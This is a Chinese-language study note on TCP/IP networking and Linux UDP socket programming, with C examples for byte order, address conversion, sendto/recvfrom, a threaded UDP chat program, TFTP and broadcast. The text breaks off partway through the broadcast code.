## 网络编程概述

查错命令：

```makefile
ping 命令：用于测试网络连通性。发送特定大小的数据包到目标主机，并等待回应以确认数据包的成功送达。
netstat 命令：显示网络连接、路由表、接口统计等信息，用于检测网络状态和连接情况。

nslookup命令：用于查询域名对应的IP地址，检查DNS解析是否正常。

tcpdump命令：一种强大的网络抓包工具，可以用于实时分析和捕获网络数据包。


traceroute命令:作用是跟踪数据包传输路径。这个命令能显示数据包从源主机到目标主机所经过的所有路由器，以及每个节点的延迟时间。通过分析这些信息，可以判断网络中的故障点或拥堵点。
```

网络节点：路由器和交换机组成 

路由：网络通信路径

**分组交换**:

同一个分组系统中 每组大小是等长。

 每一个分组 都会携带一个首部 

首部：分组在原数据的位置、源主机/目的主机信息


**存储转发**:

节点收到分组，先暂时存储下来，再检查其首部，按照首部中的目的地址，找到合适的节点转发出去.

数据的重组 发生在目的主机上


**因特网发展史**:

TCP/IP是协议的统称，是一个族，不要认为是TCP或IP协议 

单个ARPANET---->三级网络借结构--->多级网络结构

## TCP/IP协议

### 网络的分层结构



**七层结构**：==OSI/RM 开放互联参考模型（理论上的标准）==

- **物理层**：网络卡的接口类型、电流强弱等标准 
- **数据链路层**：负责完整的帧数据 收发（帧数据：完整独立在网上传输的数据），mac地址 的封装和解封装（设备 到 设备的通信） 
- **网络层**：负责IP报文的封装和解封装，IP地址。（主机 到 主机的通信） 
- **传输层**：负责端口的封装和解封装（端口 区别是 系统的进程）（进程 到 进程的通信） 
- **会话层**：负查看数据是否能够到达目的主机，查看网络通信状态。 
- **表示层**：将计算机识别的二进制数据 转换成 用户能识别的（图片、视频、音频等） 
- **应用层**：具体应用程序的协议。

**四层结构**：==TCP/IP模型（事实上的标准）== 

- **应用层**：具体应用程序的协议 
  - FTP文件传输协议、Telnet远程登录协议、HTTP超文本传送协议
- **传输层**：负责端口的封装和解封装（端口 区别是 系统的进程）（进程 到 进程的通信） 
  - TCP传输控制协议、UDP用户数据报协议 
- **网络层**：负责IP报文的封装和解封装，IP地址。（主机 到 主机的通信） 
  - IP网际协议、ICMP网络控制报文协议、IGMP网络组管理协议 
- **链路层**：负责完整的帧数据 收发（帧数据：完整独立在网上传输的数据），mac地址的封 装和解封装（设备 到 设备的通信） 
  - arp地址解析协议 、rarp逆地址解析协议



- **FTP**:文件传输协议（File Transfer Protocol），它是一个专门设计用于在网络中的不同计算机之间传输文件的协议。
  - FTP协议基于**客户端-服务器**模式工作，允许用户上传或下载文件，使得本地与远程主机间的文件传输变得可能

- **telnet**:是一种用于远程登录的协议，它允许用户通过网络连接到远程主机并执行命令
- **SNMP**:应用层-是简单网络管理协议，主要用于网络管理，如监控网络设备的状态和性能
- **NFS**：是网络文件系统，它允许在不同系统间共享文件，但它是一种服务而不是一个应用层协议
- SMTP：邮件协议

### IP协议（网际协议）

IP在网络层（主机到主机的通信） 

特点： 

1. 尽最大可能将数据报文传送到目的主机。 【不可靠，它不能保证数据包能成功地到达它的目的地】
2. IP并不维护任何关于后续数据包的状态信息。每个数据包的处理是相互独立的，IP数据包也可以不按发送顺序接收
3. 包含源IP和目的IP
4. 是一种无连接的协议.

### TCP报文（传输控制协议）

TCP是可靠的传输层协议（进程和进程的通信）

**特点**

1. 建立链接->使用链接->释放链接（虚电路）
2. TCP数据包中包含序号和确认序号
3. 对包进行排序并检错，而损坏的包可以被重传【失败重传】
4. 面向大文件传输

**服务对象**

- 需要高度可靠性且面向连接的服务
  - 如HTTP、FTP、SMTP等

### UDP协议（用户数据报 协议）

UDP是不可靠的传输层协议（进程和进程的通信）

**特点**：

无连接、不排序检错、不重传，支持广播、多播。

**服务对象**

- 简单应答服务
  - NFS、NTP（网络时间协议）、DNS（域名解析协议）等

### ICMP协议（网际控制报文协议）

是一种用于报告网络错误的协议，它不是面向连接的协议。

ICMP主要用于报告数据包在传输过程中出现的问题，如目标不可达、超时等。

## 地址

### mac地址（网卡的地址 链路层）

mac标示网卡地址编号（理论上全球唯一）

以太网内的MAC地址是一个48bit的值

### IP地址（IPv4）

- IPv4: 32位
- IPv6: 128位

使用32bit,由**{网络ID，主机ID}**两部分组成

- 子网ID不同的网络不能直接通信，如果要通信则需要路由器转发
- **主机ID==全为0==的IP地址表示网段地址**
- **主机ID==全为1==的IP地址表示该网段的广播地址**

```c
网络ID:IP地址中由子网掩码中1覆盖的连续位;
主机ID:IP地址中由子网掩码中0覆盖的连续位
```

- **网络ID**：标示IP地址在哪个网段 
- **主机ID**：标示IP地址在网段的具体位置。



例子 ：

- 案例1:10.9.11.3， 掩码255.255.255.0 ，网络ID10.9.11， 主机ID3 
- 案例2:10.9.11.3， 掩码255.255.0.0， 网络ID10.9 ，主机ID11.3 
- 案例3:10.9.11.3， 掩码255.0.0.0， 网络ID10 ，主机ID9.11.3 
- 案例3:10.9.11.3 ，掩码255.128.0.0， 网络ID10 ，主机ID9.11.3

### IP地址的分类（合理的利用IP地址资源）

A**类地址**：

- 默认8bit子网ID,第一位为0 (广域网 国家‐国家之间)

- 掩码：255.0.0.0

- ```c
  0xxx xxxx.0000 0000.0000 0000.0000 0000
  0xxx xxxx.1111 1111.1111 1111.1111 1111
  ```

**B类地址**：

- 默认16bit子网ID,前两位为10 (城域网 城市‐城市之间)

- 掩码：255.255.0.0

- ```c
  10xx xxxx.xxxx xxxx.0000 0000.0000 0000
  10xx xxxx.xxxx xxxx.1111 1111.1111 1111
  ```

C**类地址**：

- 默认24bit子网ID,前三位为110 （局域网）

- 掩码：255.255.255.0

- ```
  110x xxxx.xxxx xxxx.xxxx xxxx.0000 0000
  110x xxxx.xxxx xxxx.xxxx xxxx.1111 1111
  ```

D**类地址**：

- 前四位为1110,多播地址

E**类地址**: 

- 前五位为11110,保留为今后使用

### IP地址分类（能否上外网）

- **公有IP**：可直接连接Internet 
- **私有IP**：不能直接上Internet，可以借助代理上Internet 
- ==**私有**IP**不能直接**和**公有**IP通信==。



### 回环IP地址

127.0.0.1~127.255.255.254中的任何地址都将回环到本地主机中

要是测试本机的网络配置，能ping通127.0.0.1说明本机的网卡和IP协议安装都没有问题【用来测试本机配置】

```c
//ifconfig lo [IP地址]命令来更改回环接口的IP地址。
//例如，使用
ifconfig lo 127.0.0.2 //可以将回环地址修改为127.0.0.2
```


### 设置IP地址

**window**:

- 在网络属性中配置即可

**linux**:

```makefile
配置设备ip地址为 10.9.11.5，同时掩码为255.255.255.0
ens33 是配置名称
ifconfig ens33 10.9.11.5 netmask 255.255.255.0

自动获取IP:
sudo dhclient

拨号：
sudo pppoeconf
sudo pon dsl‐provider    //拨号ADSL
sudo poff                //断开ADSL
```

或者：

- 在网络连接的图像界面中设置

### 子网掩码

子网掩码（subnet mask）又叫网络掩码、地址掩码是一个32bit由1和0组成的数值，并且 1和0分别连续 

作用 

- 指明IP地址中哪些位标识的是主机所在的子网以及哪些位标识的是主机号 

特点

-  必须结合IP地址一起使用，不能单独存在 
- IP地址中由子网掩码中1覆盖的连续位为子网ID,其余为主机ID 

子网掩码的表现形式：

```c
 192.168.220.0/255.255.255.0
 //可以写成下方的形式
 192.168.220.0/24
 //其中24表示的是1的位数，就是说有24个1
 //255.255.255.0,中前3字节全是1，也就是24个1
```

## 网络接口

```c
//可以通过执行ifconfig [网卡名] up命令来激活网络接口。
//例如，执行
ifconfig eth0 up  //会使eth0网卡处于激活状态。
    
ifconfig [网卡名] down   //关闭（禁用）一个网络接口
```

## 端口

### 端口的概述

TCP/IP协议采用端口标识通信的进程。

端口的本质是一段缓冲区

**特点**： 

- 对于同一个系统，一个端口只能被一个进程拥有。 
- 对于同一个系统，一个进程可以拥有多个端口。 
- 对于同一个端口，在不同系统中对应着不同的进程。

一个进程拥有一个端口后，传输层送到该端口的数据全部被该进程接收，同样，进程送交传 输层的数据也通过该端口被送出

### 端口号

- 端口号表示一个网络进程。
-  端口号是**无符号短整型**的类型。 
- **TCP、UDP维护各自独立的端口号**
-  网络应用程序,至少要占用一个端口号,也可以占有多个端口号

### 端口号的分类

- **知名端口**（1~1023）
  - 由互联网数字分配机构(IANA)根据用户需要进行统一分配 
    - 例如：FTP—21，HTTP—80等 
  - 服务器通常使用的范围;若强制使用,须加root特权 
- **动态端口**（1024~65535） 
  - 应用程序通常使用的范围

## 数据的封装和解封装

### 封装和解封装的流程

封装数据报文：发送数据 

解封装数据报文：接收数据




### 链路层报文格式（mac报文）



**注意**：

- IEEE802.2/802.3封装常用在无线
- 以太网封装常用在有线局域网

### IP、TCP、UDP报文格式



## 应用层协议开发流程

- **面向连接（TCP）**
  - 电话系统服务模式的抽象
  - 每一次完整的数据传输都要经过建立连接、使用连接、终止连接的过程本质上,连接是一个管道,收发数据不但顺序一致,而且内容相同，保证数据传输的可靠性
  
- **面向无连接（UDP）**

  - 邮件系统服务模式的抽象 

  - 每个分组都携带完整的目的地址 不

  - 能保证分组的先后顺序 

  - 不进行分组出错的恢复和重传 

  - 不保证数据传输的可靠性

## 应用层协议开发架构

### c/s架构 client客户端/sever服务器

QQ LOL 微信 

客户端、服务器都需要用户实现。

客户端和服务器同等重要。

- ==服务器：**被客户端连接**==：

  - 服务器必须指定在**固定的端口**等待客户端的连接。 

  - 客户端的连接到来，必须启动新的线程/进程， 来服务客户端。 

  - 服务器记得关闭 和客户端的连接 

- ==客户端：**主动 连接服务器**==：

  - 客户端 给服务器 发送请求 

  - 获取完请求 关闭连接

### b/s架构 browser浏览器/server服务器

WebQQ、网页游戏。重心在服务器上。（移动）

## 划分网段

**VLAN技术**：虚拟局域网划分

- 可以牺牲主机位来划分子网
- 如果牺牲主机的位数为x，划分子网的数量为n,那么 必须满足`2^x>=n`,
  - 也就是是如果划分6个子网，2的x次方需要大于等于6，得出牺牲主机位为3，并可以推出子网掩码为255.255.255.11100000 ----->255.255.255.224

- 10.9.11.**000**0 0000~10.9.11.**000**1 1111 ==>10.9.11.0~10.9.11.31    网段1
- 10.9.11.**001**0 0000~10.9.11.**001**11111 ==>10.9.11.32~10.9.11.63  网段2
- 10.9.11.**010**0 0000~10.9.11.**010**1 1111 ==>10.9.11.64~10.9.11.95  网段3
- 10.9.11.**011**0 0000~10.9.11.**011**1 1111 ==>10.9.11.96~10.9.11.127  网段4
- 10.9.11.**100**0 0000~10.9.11.**100**1 1111 ==>10.9.11.128~10.9.11.159  网段5
- 10.9.11.**101**0 0000~10.9.11.**101**1 1111 ==>10.9.11.160~10.9.11.191  网段6
- 10.9.11.**110**0 0000~10.9.11.**110**1 1111 ==>10.9.11.192~10.9.11.223  网段7
- 10.9.11.**111**0 0000~10.9.11.**111**1 1111 ==>10.9.11.224~10.9.11.255  网段8

## UDP编程

### 字节序

将多字节看成一个整体存储的顺序

字节序分为：大端格式、小端格式。



大小端是系统决定的，我们不能更改

**案例1**：判断当前系统是大端还是小端：

```c
#include <stdio.h>

int main(int argc, char const *argv[])
{
    unsigned short num=0x0102;

    //获取低地址
    unsigned char *p=(unsigned char *)&num;

    if(*p==0x01){
        printf("大端");
    }else if(*p==0x02){
        printf("小端");    
    }
    return 0;
}
```

### 网络字节序和主机字节序

==**如果计算机没有考虑字节序的问题，会导致传输的数据错误**==。比如A机使用大端，b机使用小端。

**解决方式**：



【事先规定】网络中的数据 必须是大端。 

发送数据：需要将 主机字节序 转 网络字节序 hton 

接收数据：需要将 网络字节序 转 主机字节序 ntoh

### 字节序的转换函数

```c
#include <arpa/inet.h>
```

**主机字节序 转 网络字节序（发送数据）**

```c
uint32_t htonl(uint32_t hostint32);//转IP
uint16_t htons(uint16_t hostint16);//转端口号
```

**网络字节序 转 主机字节序（接收数据）**

```c
uint32_t ntohl(uint32_t netint32);//转换4字节，一般转IP
uint16_t ntohs(uint16_t netint16);//转换2字节，一般转端口，也用于转帧数据类型
```

### 地址转换函数

"10.9.11.3" 点分十进制数串 （用户识别的IP地址）

 但是：计算机 **是用32位无符号数据** 存储IP地址

**发送数据 将点分十进制数据 转换成 32为无符号数据**

```c
 #include <arpa/inet.h>
```

```c
int inet_pton(int family,const char *strptr, void *addrptr);
//或者
int  inet_addr(const char *strptr);  //返回32为无符号数据
```

-  功能：
  -  将点分十进制数串转换成32位无符号整数
- 参数：
  -  family  ： 协议族 ，**AF_INET**‐‐>IPv4 、**AF_INET6**‐‐>IPv6
  -  strptr  ： 点分十进制数串
  -  addrptr ：32位无符号整数的地址
- 返回值：
  - 成功 返回1 
  - 失败 返回其它

```c
#include <stdio.h>
#include <arpa/inet.h>
int main(int argc, char const *argv[])
{
    char *str_ip="10.7.11.3";
    unsigned int data_ip=0;
    inet_pton(AF_INET,str_ip,(void *)&data_ip);
    printf("data_ip=%u\n",data_ip);  
    //打印结果 : data_ip=51054346  
    //分析32位ip在data_ip变量的存储格式
    unsigned char *p=(unsigned char *)&data_ip;
    printf("%d %d %d %d",*p,*(p+1),*(p+2),*(p+3));
    //10 7  11 3 //其实就是以 . 为分隔线将值独立的存储在每一个字节中
    return 0;
}
```

**接收数据 将32为无符号数据 转换成 点分十进制数串**：

```c
const char *inet_ntop(int family, const void *addrptr,char *strptr, size_t len)
```

- 功能：
  - 将32位无符号整数转换成点分十进制数串

- 参数：

  -  family :协议族 AF_INET

  -   addrptr  :  32位无符号整数

  -  strptr   :  点分十进制数串

  -  len  :   strptr缓存区长度,len的宏定义:

    - ```c
      #define  INET_ADDRSTRLEN   16  //for ipv4
      #define  INET6_ADDRSTRLEN  46  //for ipv6
      ```

-  返回值：
  -  成功:则返回字符串的首地址
  - 失败:返回NULL

```c
#include <stdio.h>
#include <arpa/inet.h>
int main(int argc, char const *argv[])
{
  unsigned char data_ip[4]={10,9,11,3};
  //转换成字符串
  char ip_str[16]="";
  inet_ntop(AF_INET,data_ip,ip_str,16);
  printf("%s\n",ip_str); //10.9.11.3
  return 0;
}
```

### 网络编程接口socket

网络通信的3要素：IP、PORT、协议 

**作用**：提供不同主机上的进程之间的通信

socket 是网络编程接口的统称。 

socket 是通信的一个端点（IP、PORT信息），是特殊的文件描述符（套接字）。

类似对文件的操作一样，可以使用read、write、close等函数对socket套接字进行网络数据的收取和发送等操作

得到socket套接字（描述符)的方法调用socket ()

### udp的编程流程



### socket-创建套接字（通信的端点）

```c
 #include <sys/socket.h>
int socket(int family,int type,int protocol);
```

**功能**：

-  创建一个用于网络通信的socket套接字（描述符）

**参数**：

-  family : 协议族(==AF_INET==、==AF_INET6==、==PF_PACKET==等)
-  type :  套接字类(==SOCK_STREAM==、==SOCK_DGRAM==、==SOCK_RAW==等)
  - SOCK_STREAM：流式套接字-tcp
  - SOCK_DGRAM:数据报套接字 -udp
  - SOCK_RAW:原始套接字-底层编程
-   protocol : 协议类别(==0==、==IPPROTO_TCP==、==IPPROTO_UDP==等
  - 这里填0，会自动根据套接字匹配协议

**返回值**：

-  套接字

**特点**：

-  创建套接字时，系统不会分配端口

### IPv4地址结构体

定义 地址结构体变量

```c
#include <netinet/in.h>
```

```c
struct in_addr
{
    in_addr_t s_addr;//4字节
};
struct sockaddr_in //IPv4地址结构体
{
    sa_family_t    sin_family;//2字节 AF_INET AF_INET6
    in_port_t       sin_port;//2字节
    struct in_addr  sin_addr;//4字节
    char           sin_zero[8]//8字节
};
```

### 通用套接字地址结构

对传递给函数的实参进行类型转换 不做赋值操作

```c
struct sockaddr
{
    sa_family_t sa_family;    // 2字节
    char sa_data[14]     //14字节
};
```

### sendto发送udp消息

```c
ssize_t sendto(int sockfd，const void *buf,size_t nbytes,int flags,const struct sockaddr *to, socklen_t addrlen);
```

**功能**：

-  向to结构体指针中指定的ip，发送UDP数据

**参数**：

-  sockfd：套接字
-  buf：    发送数据缓冲区
-  nbytes:   发送数据缓冲区的大小
-  flags：一般为0
-  to：  指向目的主机地址结构体的指针
-  addrlen：to所指向内容的长度

**注意**：

-  通过to和addrlen确定目的地址
-  可以发送0长度的UDP数据包

**返回值**：

-  成功:发送数据的字符数
-  失败: ‐1

```c
#include <stdio.h>
#include <sys/socket.h>
#include <string.h>
#include <netinet/in.h>
#include <unistd.h>
#include <arpa/inet.h>
int main(int argc, char const *argv[])
{
    int sockfd = socket(AF_INET, SOCK_DGRAM, 0);
    if (sockfd < 0)
    {
        perror("sockfd");
        return 0;
    }

    // 发送数据
    char buf[] = "hello sockfd";
    // 目的地址信息
    struct sockaddr_in dst_addr;
    memset(&dst_addr, 0, sizeof(dst_addr));
    dst_addr.sin_family = AF_INET;
    dst_addr.sin_port = htons(8080);

    int inet_pton_data = inet_pton(AF_INET, "192.168.3.107", &dst_addr.sin_addr.s_addr);

    // 如果套接字 没有事先绑定固定的IP及端口
    // 那么第一次调用sendto的时候系统会将本地主机ID,以及随机端口【第一次随机，但是之后就固定这个端口】，作为源地址信息
    ssize_t sendto_data = sendto(sockfd, buf, strlen(buf), 0, (struct sockaddr *)&dst_addr, sizeof(dst_addr));
    printf("%d", (int)sendto_data);
    close(sockfd);
}
```

### bind给套接字绑定固定的IP和端口

bind只能绑定本地机的IP地址

**步骤**：

1. 创建套接字
2.  bind固定IP以及端口
3.  sendto发送数据或recvfrom接收数据

```c
int bind(int sockfd,const struct sockaddr *myaddr，socklen_t addrlen);
```

**功能**：

- 将本地协议地址与sockfd绑定

 **参数**：

- sockfd： socket套接字
- myaddr： 指向特定协议的地址结构指针
- addrlen：该地址结构的长度

 **返回值**：

- 成功：返回0 
- 失败：其他

```c
#include <stdio.h>
#include <sys/socket.h>
#include <string.h>
#include <netinet/in.h>
#include <unistd.h>
#include <arpa/inet.h>
int main(int argc, char const *argv[])
{
    int sockfd = socket(AF_INET, SOCK_DGRAM, 0);
    if (sockfd < 0)
    {
        perror("sockfd");
        return 0;
    }

    struct sockaddr_in bing_addr;
    memset(&bing_addr, 0, sizeof(bing_addr));
    bing_addr.sin_family = AF_INET;
    // 想要固定的端口(源端口)
    bing_addr.sin_port = htons(9000);
    // 填0让函数自己去找本地ip 或者使用宏 INADDR_ANY
    bing_addr.sin_addr.s_addr = htonl(INADDR_ANY);
    bind(sockfd,(struct sockaddr *)&bing_addr,sizeof(bing_addr));

    char buf[] = "hello sockfd";
    struct sockaddr_in dst_addr;
    memset(&dst_addr, 0, sizeof(dst_addr));
    dst_addr.sin_family = AF_INET;
    dst_addr.sin_port = htons(8080);

    int inet_pton_data = inet_pton(AF_INET, "192.168.3.107", &dst_addr.sin_addr.s_addr);

    ssize_t sendto_data = sendto(sockfd, buf, strlen(buf), 0, (struct sockaddr *)&dst_addr, sizeof(dst_addr));
    printf("%d", (int)sendto_data);
    close(sockfd);
}
```


### recvfrom接收数据（阻塞）

如果只负责收数据 记得事先bind固定的端口以及IP

```c
ssize_t recvfrom(int sockfd, void *buf,size_t nbytes,int flags,struct sockaddr *from,socklen_t *addrlen);
```

**功能**：

- 接收UDP数据，并将源地址信息保存在from指向的结构中


 **参数**：

- sockfd: 套接字
- buf：接收数据缓冲区
- nbytes:接收数据缓冲区的大小
- flags： 套接字标志(常为0)
- from：  源地址结构体指针，用来保存数据的来源
- addrlen: from 所指内容的长度

 **注意**：

- 通过from和addrlen参数存放数据来源信息
-  from和addrlen可以为NULL, 表示不保存数据来源

**返回值**：

-  成功:接收到的字符数
-   失败: ‐1

```c
#include <stdio.h>
#include <sys/socket.h>
#include <string.h>
#include <netinet/in.h>
#include <unistd.h>
#include <arpa/inet.h>
int main(int argc, char const *argv[])
{
    int sockfd = socket(AF_INET, SOCK_DGRAM, 0);
    if (sockfd < 0)
    {
        perror("sockfd");
        return 0;
    }

    struct sockaddr_in bing_addr;
    memset(&bing_addr, 0, sizeof(bing_addr));
    bing_addr.sin_family = AF_INET;
    bing_addr.sin_port = htons(9000);
    bing_addr.sin_addr.s_addr = htonl(INADDR_ANY);
    bind(sockfd, (struct sockaddr *)&bing_addr, sizeof(bing_addr));

    while (1)
    {
        unsigned char buf[1500] = "";
        struct sockaddr_in addrData;
        socklen_t form_len = sizeof(addrData);
        // int len = recvfrom(sockfd, buf, sizeof(buf), 0, NULL, NULL);
        int len = recvfrom(sockfd, buf, sizeof(buf), 0, (struct sockaddr *)&addrData, &form_len);
        if(len<0){
            perror("len");
            return 0;
        }
        //获取发送者ip
        char ip_str[16]="";
        inet_ntop(AF_INET,&addrData.sin_addr.s_addr,ip_str,16);

        //获取发送者的端口
        unsigned short port=ntohs(addrData.sin_port);
        printf("长度：%d,数据%s,ip=%s,port=%hu\n", len, buf,ip_str,port);
    }

    close(sockfd);
}
```

### 案例：qq聊天

```c
#include <stdio.h>
#include <sys/socket.h> //socket
#include <unistd.h>
// close
#include <string.h>
// memset strlen
#include <netinet/in.h> //struct sockaddr_in
#include <arpa/inet.h>  //inet_pton
#include <pthread.h>
#include <stdlib.h>
void *send_fun(void *arg)
{
    struct sockaddr_in dst_addr;
    memset(&dst_addr, 0, sizeof(dst_addr));
    dst_addr.sin_family = AF_INET;

    // 根据用户输入 更改目的IP和端口
    int sockfd = *(int *)arg;
    while (1)
    {
        // sayto IP port
        char buf[128] = "";
        fgets(buf, sizeof(buf), stdin);
        buf[strlen(buf) - 1] = 0;

        if (strncmp(buf, "sayto", 5) == 0)
        {
            char ip_str[16] = "";
            unsigned short port = 0;
            sscanf(buf, "sayto %s %hu", ip_str, &port);
            dst_addr.sin_port = htons(port);
            inet_pton(AF_INET, ip_str, &dst_addr.sin_addr.s_addr);
            continue;
        }
        else if (strncmp(buf, "quit", 4) == 0)
        {
            return NULL;
        }

        sendto(sockfd, buf, strlen(buf), 0, (struct sockaddr *)&dst_addr, sizeof(dst_addr));
    }

    return NULL;
}

void *recv_fun(void *arg)
{
    // 获得数据 打印发送者的信息
    int sockfd = *(int *)arg;
    while (1)
    {
        unsigned char buf[1500] = "";
        struct sockaddr_in from_addr;
        socklen_t from_len = sizeof(from_addr);

        int len = recvfrom(sockfd, buf, sizeof(buf), 0,
                           (struct sockaddr *)&from_addr, &from_len);
        if (len < 0)
        {
            perror("recvfrom");
            return 0;
        }
        // 获取发送者的IP
        char ip_str[16] = "";
        inet_ntop(AF_INET, &from_addr.sin_addr.s_addr, ip_str, 16);
        // 获取发送者的端口
        unsigned short port = ntohs(from_addr.sin_port);

        printf("IP:%s PORT:%hu 长度：%d 消息:%s\n", ip_str, port, len, buf);
    }
}
int main(int argc, char const *argv[])
{
    if (argc != 2)
    {
        printf("./a.out 8000\n");
        return 0;
    }

    // sockfd = socket()创建一个udp套接字
    int sockfd = socket(AF_INET, SOCK_DGRAM, 0);
    if (sockfd < 0)
    {
        perror("socket");
        return 0;
    }
    printf("sockfd = %d\n", sockfd);

    // bind固定端口IP
    struct sockaddr_in my_addr;
    memset(&my_addr, 0, sizeof(my_addr));
    my_addr.sin_family = AF_INET;
    my_addr.sin_port = htons(atoi(argv[1]));     // 源端口
    my_addr.sin_addr.s_addr = htonl(INADDR_ANY); // 通配地址
    int ret = bind(sockfd, (struct sockaddr *)&my_addr, sizeof(my_addr));
    if (ret < 0)
    {
        perror("bind");
        return 0;
    }

    // 创建发送线程  将sockfd传递
    pthread_t tid1, tid2;
    pthread_create(&tid1, NULL, send_fun, (void *)&sockfd);
    // 创建接收线程 将sockfd传递
    pthread_create(&tid2, NULL, recv_fun, (void *)&sockfd);

    // 等待线程结束pthread_join
    pthread_join(tid1, NULL);
    pthread_cancel(tid2);
    pthread_join(tid2, NULL);

    // 关闭套接字
    close(sockfd);

    return 0;
}

```

### 案例：qq聊天简化版

```c
#include <stdio.h>
#include <sys/socket.h>
#include <string.h>
#include <netinet/in.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <pthread.h>

typedef struct myData
{
    char ip[16];
    int port;
    int socketfd;
} IPData;

void *sendFun(void *arg)
{
    IPData data = *(IPData *)arg;
    struct sockaddr_in sockaddrIP;
    memset(&sockaddrIP, 0, sizeof(sockaddrIP));
    sockaddrIP.sin_family = AF_INET;
    sockaddrIP.sin_port = htons(data.port);
    inet_pton(AF_INET, data.ip, &sockaddrIP.sin_addr.s_addr);
    while (1)
    {

        char buf[100] = "";
        printf("请输入想要发送的信息：\n");
        scanf("%s", buf);
        ssize_t sendto_data = sendto(data.socketfd, buf, strlen(buf), 0, (struct sockaddr *)&sockaddrIP, sizeof(sockaddrIP));
    }
}
void *receiveFun(void *arg)
{
    IPData data = *(IPData *)arg;
    while (1)
    {

        struct sockaddr_in sockaddrIP;
        socklen_t form_len = sizeof(sockaddrIP);
        unsigned char buf[1500] = "";
        int len = recvfrom(data.socketfd, buf, sizeof(buf), 0, (struct sockaddr *)&sockaddrIP, &form_len);
        if (len < 0)
        {
            printf("err");
        }
        printf("收到数据%s\n", buf);
    }
}
int main(int argc, char const *argv[])
{
    pthread_t tid1, tid2;
    int socketfd = socket(AF_INET, SOCK_DGRAM, 0);
    IPData sendData = {"192.168.3.107", 8080, socketfd};
    struct sockaddr_in sockaddrMyIP;
    memset(&sockaddrMyIP, 0, sizeof(sockaddrMyIP));
    sockaddrMyIP.sin_family = AF_INET;
    sockaddrMyIP.sin_addr.s_addr = htonl(INADDR_ANY);
    sockaddrMyIP.sin_port = htons(9000);
    bind(socketfd, (struct sockaddr *)&sockaddrMyIP, sizeof(sockaddrMyIP));
    IPData receiveData = {"", 9000, socketfd};
    pthread_create(&tid1, NULL, sendFun, (void *)&sendData);
    pthread_create(&tid2, NULL, receiveFun, (void *)&receiveData);
    pthread_join(tid1, NULL);
    pthread_cancel(tid2);
    pthread_join(tid2, NULL);

    close(socketfd);
    return 0;
}

```

## UPD-TFTP广播、多播

### TFTP概述

通信协议、通信流程

tftp：简单文件传输协议、基于UDP协议。

 数据传输模式： 

- octet：二进制模式 
- netascii：文本模式

### TFTP的通信过程

通信过程 决定了 编程流程



**TFTP通信过程总结**（无选项）

1.  服务器在69号端口等待客户端的请求 
2.  服务器若批准此请求,则使用临时端口与客户端进行通信 
3.  每个数据包的编号都有变化（从1开始递增） 
4.  每个数据包都要得到ACK的确认如果出现超时,则需要重新发送最后的包（数据或 ACK） 
5.  数据的长度以512Byte传输 
6.  小于512Byte的数据意味着传输结束

### TFTP的协议分析



注意：

- 以上的0代表的是'\0'
- 不同的差错码对应不同的错误信息

### TFTP带选项的读写报文（创新）

一旦报文 配置了 选项，那么就会立马回应 一个 OACK，来确定是否真的要更改选项，也就是服务器第一次发的报文不再是文件数据，而是OACK。

如果发送带选项的读写请求，则通讯流程改变为：



由于OACK不携带编号，导致后续ACK不知道编号是多少，那么后续第一个ACK编号为0

**选项的值**：

- **tsize选项**

  - 当读操作时，tsize选项的参数必须为“0”，服务器会返回待读取的文件的大小 

  - 当写操作时，tsize选项参数应为待写入文件的大小，服务器会回显该选项 

- **blksize选项** 
  - 修改传输文件时使用的数据块的大小（范围：8～65464） 

- **timeout选项** 
  - 修改默认的数据传输超时时间（单位：秒）

### 抓包工具wireshark

**过滤规则**：

IP过滤:

```makefile
ip.src==10.9.11.251 #只显示源IP为10.9.11.251的数据报文
ip.dst==10.9.11.251 #只显示目的IP为10.9.11.251的数据报文
ip.addr==10.9.11.251 #只显示源IP或目的IP为10.9.11.251的数据报文
```

协议过滤:

```makefile
tcp udp arp tftp
```

端口过滤:

```makefile
udp.srcport==8000#只显示源端口为8000的udp报文
udp.dstport==8000#只显示目的端口为8000的udp报文
udp.port==8000#只显示目的或源端口为8000的udp报文
tcp.srcport==8000#只显示源端口为8000的tcp报文
tcp.dstport==8000#只显示目的端口为8000的tcp报文
tcp.port==8000#只显示目的或源端口为8000的tcp报文
```

mac地址过滤:

```makefile
eth.src==aa:bb:cc:dd:ee:ff#只显示源mac为aa:bb:cc:dd:ee:ff的数据报文
eth.dst==aa:bb:cc:dd:ee:ff#只显示目的mac为aa:bb:cc:dd:ee:ff的数据报文
eth.addr==aa:bb:cc:dd:ee:ff#只显示源mac或目的mac为aa:bb:cc:dd:ee:ff的数据报文
```

逻辑与、逻辑或：

```makefile
 and #相当于  && 逻辑与 同时满足
 or # 相当于  || 逻辑或 只要有一个满足就行
```

#### 对抓取到的数据报文分析





## UDP广播

### 概述

每一个网段，主机ID全为0，为网段地址，主机ID全为1，为广播地址。 

10.9.11.0/24 它的网段地址为10.9.11.0 ，广播地址为10.9.11.255 

广播：由一台主机向该主机所在子网内的所有主机发送数据的方式 

广播只能用UDP或原始IP实现，不能用TCP。 

以下几个协议都用到广播 

- 地址解析协议（ARP） 
- 动态主机配置协议（DHCP） 
- 网络时间协议（NTP）

### UDP广播的特点

1. 处于同一子网的所有主机都必须处理数据 
2. UDP数据包会沿协议栈向上一直到UDP层 
3. 运行音视频等较高速率工作的应用，会带来大负 
4. 局限于局域网内使用

### UDP广播地址

- **{网络ID，主机ID}**
  -  网络ID表示由子网掩码中1覆盖的连续位
  -  主机ID表示由子网掩码中0覆盖的连续位
-  **定向广播地址**：==主机ID全1== 
  - 例：对于192.168.220.0/24，其定向广播地址为192.168.220.255 
  - 通常路由器不转发该广播 
- **受限广播地址**：==255.255.255.255== 
  - 路由器从不转发该广播

### 广播与单播的对比





### 设置广播setsockopt

- socket函数创建的套接字 一般不支持广播。 
- **setsockopt函数 可以让 套接字 支持广播**。

```c
int setsockopt(int sockfd, int level,int optname,const void *optval, socklen_t optlen);
```

参数：

| level（级别） | optname                          | 说明               | optval                                                       | optlen类型 |
| ------------- | -------------------------------- | ------------------ | ------------------------------------------------------------ | ---------- |
| SOL_SOCKET    | SO_BROADCAST<br>(broadcast:广播) | 允许发送广播数据包 | 定义一个int 变量，赋值为1表示确定，传入地址即可。赋值2表示确认 | int        |

返回：

- 成功返回0
- 否则返回-1

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
int main(int argc, char const *argv[])
{
    // 创建一个udp套接字
    int sockfd = socket(AF_INET, SOCK_DGRAM, 0);

    // 使用setsockopt函数设置sockfd支持广播
